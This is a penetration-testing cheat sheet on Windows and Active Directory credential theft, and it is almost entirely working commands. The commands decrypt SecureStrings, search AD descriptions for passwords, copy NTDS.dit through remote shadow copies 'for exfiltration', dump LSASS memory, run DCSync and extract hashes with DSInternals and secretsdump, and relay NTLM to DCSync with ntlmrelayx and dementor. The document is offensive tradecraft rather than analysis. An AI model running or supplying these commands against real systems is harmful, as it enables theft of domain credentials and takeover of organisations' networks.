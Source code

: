 # Credential Access

## SecureString to Plaintext

{% code overflow="wrap" fullWidth="false" %}
```powershell
$SecPass = "<SECURE PASS STRING>" | ConvertTo-SecureString; 
(New-Object System.Management.Automation.PSCredential "N/A", $SecPass).GetNetworkCredential().Password; 
```
{% endcode %}

## Passwords in Description

`ActiveDirectory` Module

{% code overflow="wrap" fullWidth="false" %}
```powershell
Get-ADUser -Filter 'Description -like "*password*"' -Properties Description | select name,Description
```
{% endcode %}

Using `PowerView.ps1` GitHub: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

{% code fullWidth="false" %}
```powershell
Find-UserField -SearchField Description -SearchTerm "password"
```
{% endcode %}

## Volume Shadow Creation

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

{% code overflow="wrap" %}
```powershell
# creating volume shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"

# copying NTDS.dit, SYSTEM and SECURITY files from shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c copy \\[shadow_copy_dir]\\Windows\\NTDS\\NTDS.dit [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SYSTEM [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SECURITY [target_folder]"

# compressing files for exfiltration
7za.exe a -mx3 nt.7z \\\\[AD_IP_address]\\c$\\[target_folder]
```
{% endcode %}

## Dumping LSASS with `rundll32.exe`

Same behavior that would occur if you `Right-Clicked` the process in Task Manager and dump LSASS manually.

{% code overflow="wrap" %}
```powershell
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
{% endcode %}

## Memory Dump with `Get-StorageDiagnosticInfo`

Source: [https://x.com/0gtweet/status/1440255495797764108](https://x.com/0gtweet/status/1440255495797764108) https://docs.microsoft.com/en-us/powershell/module/storage/get-storagediagnosticinfo?view=windowsserver2019-ps

{% code overflow="wrap" %}
```powershell
$fname = Get-StorageSubSystem | Select -Property FriendlyName
Get-StorageDiagnosticInfo -StorageSubSystemFriendlyName $fname -IncludeLiveDump -DestinationPath C:\
```
{% endcode %}

## Dumping NTDS with `ntdsutil.exe`

{% code overflow="wrap" %}
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endcode %}

## DSInternals

DSInternals found here: [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

### DCSync with `Get-ADReplAccount`

Credit to [@Mastadon](https://x.com/\_\_Mastadon).&#x20;

{% code overflow="wrap" %}
```powershell
Get-ADReplAccount -Server <DC FQDN> -All | Where { $_.Enabled -eq $True} | Format-Custom -View PwDump | tee hashes.ntds ; if($?) {cat .\hashes.ntds | select-string -NotMatch '\$', '\$DUPLICATE', 'IWAM_', 'IUSR_', 'ASPNET', 'HelpAssistant', 'SUPPORT_', 'Guest', 'DefaultAccount', 'HealthMailbox' |%{$_.Line.Trim()} | ? {$_.Trim() -ne "" }| Sort | Get-Unique | Out-File -encoding ASCII hashes_sorted.txt}
```
{% endcode %}

### Extracting from NTDS, SYSTEM, SECURITY

You may have to modify the following registry key:

* `HKLM\\System\\CurrentControlSet\\Control\\Lsa\\FipsAlgorithmPolicy and set "Enabled" to 0`

{% code overflow="wrap" %}
```powershell
Install-Module DSInternals; 
Import-Module DSInternals;

$key = Get-BootKey -SystemHivePath '.\registry\SYSTEM';
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=burmat,DC=local' -DBPath '.\Active Directory\ntds.dit' -BootKey $key;
```
{% endcode %}

## Extracting NTDS with `ntdsutil.exe`

{% code overflow="wrap" %}
```powershell
C:\> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
{% endcode %}

## Offline NTDS Cracking

{% code overflow="wrap" %}
```sh
secretsdump.py -ntds ./active directory/atds.dit -system SYSTEM LOCAL -output secrets_dump.ntds -user-status
```
{% endcode %}

Remove all of the built-in and disabled accounts:

{% code overflow="wrap" %}
```sh
grep -i "Enabled" secretsdump.ntds | awk -F":::" '{print $1":::"}'| grep -v '$:\\|$DUPLICATE\\|IWAM_\\|IUSR_\\|ASPNET\\|HelpAssistant\\|SUPPORT_\\|Guest\\|DefaultAccount\\|HealthMailbox' >> Enabled_Accounts.txt
```
{% endcode %}

## Relaying to DCSync

{% code overflow="wrap" %}
```sh
ntlmrelayx.py -t DCSYNC://172.16.1.200 -smb2support -debug
python3 dementor.py -d burmat.local -u jsmith -p 'S3cur3PASS123$' 10.10.1.141 172.16.1.23 -debug
```
{% endcode %}
